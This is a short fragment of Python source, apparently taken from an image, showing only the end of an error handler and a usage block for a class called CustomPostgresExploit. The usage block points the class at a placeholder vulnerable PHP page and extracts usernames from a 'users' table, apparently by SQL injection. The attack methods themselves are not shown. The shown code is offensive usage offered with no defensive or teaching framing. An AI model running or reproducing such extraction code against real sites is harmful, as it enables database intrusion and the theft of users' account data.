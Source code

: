 ```python
            print(f"Error: {str(e)}")
        
        return results

# Usage
exploit = CustomPostgresExploit("http://vulnerable.com/page.php")
if exploit.test_connection():
    data = exploit.extract_data("users", "username")
    print(f"Extracted data: {data}")
```